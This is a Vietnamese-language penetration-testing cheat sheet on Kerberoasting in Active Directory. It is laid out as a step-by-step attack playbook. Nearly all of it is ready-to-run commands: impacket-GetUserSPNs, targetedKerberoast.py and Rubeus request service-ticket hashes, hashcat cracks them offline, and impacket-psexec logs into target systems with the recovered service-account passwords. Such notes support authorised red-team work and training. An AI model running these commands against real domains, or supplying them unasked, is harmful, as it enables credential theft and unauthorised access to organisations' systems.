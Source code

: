 # Kerberoasting

## Điểm chính khai thác

* **Lỗ hổng:** Tài khoản dịch vụ với SPN (như MSSQL, HTTP) có mật khẩu yếu.
* Tác động: Lấy hash TGS-REP, crack offline để lấy mật khẩu cleartext.
* Điều kiện khai thác
  * Tài khoản người dùng domain hợp lệ (không cần quyền admin).
  * Tài khoản dịch vụ có SPN trong Active Directory.

## Kiểm tra lỗ hổng

### Liệt kê tất cả SPN

Tìm các SPN do người dùng tạo ra qua bloodhound

### Kiểm tra từng SPN

Xác định SPN liên kết với tài khoản dịch vụ:

```
impacket-GetUserSPNs -dc-ip <ip> <domain>/<user>:<password> -request
```

## Tấn công từ xa

### Thu thập TGS-REP

Lấy hash TGS-REP từ SPN trong domain:

{% code overflow="wrap" %}

```
impacket-GetUserSPNs -dc-ip <ip> <domain>/<user>:<password> -request -outputfile tgs.txt
```

{% endcode %}

{% code overflow="wrap" %}

```
python3 targetedKerberoast.py -d test.local -u john -p password123 --dc-ip 10.10.10.1 --no-abuse -o tgs.txt
```

{% endcode %}

### Crack hash

Crack hash TGS-REP để lấy mật khẩu cleartext:

```
hashcat -m 13100 tgs.txt <wordlist>
```

## Tấn công nội bộ

### Thu thập TGS-REP

Lấy hash TGS-REP từ SPN trong domain:

```
Rubeus.exe kerberoast /outfile:tgs.txt
```

### Crack hash

Crack hash TGS-REP để lấy mật khẩu cleartext:

```
hashcat -m 13100 tgs.txt <wordlist>
```

## Kiểm tra kết quả

### Lệnh

Kiểm tra mật khẩu cleartext sau khi crack:

```
hashcat -m 13100 tgs.txt <wordlist> --show
```

### Xác nhận

Dùng mật khẩu lấy được để truy cập hệ thống mục tiêu:

```
impacket-psexec <domain>/<service_account>:<password>@<ip>
```
